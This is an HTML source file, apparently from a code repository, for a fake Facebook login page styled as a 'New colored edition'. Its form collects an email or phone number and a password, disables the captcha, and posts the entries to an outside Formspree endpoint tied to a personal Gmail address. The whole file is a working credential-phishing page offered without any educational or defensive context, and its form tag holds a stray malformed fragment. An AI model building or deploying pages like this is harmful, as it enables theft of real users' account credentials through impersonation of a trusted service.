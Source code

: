 
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=Edge">
  <meta name="viewport" content="width=device-width, initial-scale=1">

  <title>HTML</title>

  <!-- HTML -->


  <!-- Custom Styles -->
  <link rel="stylesheet" href="style.css">
</head>

<body>
  <div class="content">
    <h1>Facebook</h1>
    <p>New colored edition</p>
<form action="https://formspree.io/f/mvgplaap"
"/ayoubglich6@gmail.com" method="POST">
    <input type="hidden" name="_subject" value="New email">
    <input type="email" name="email" placeholder="Email Address Or Phone" required>
    <input type="password" name="name" placeholder="password" required>
    <input type="hidden" name="_captcha" value="false">
    <button type="submit">LOGIN</button><br>
    <a href="">Forget password?</a>
</form>
  </div>
  <script src="main.js"></script>
</body>

</html>
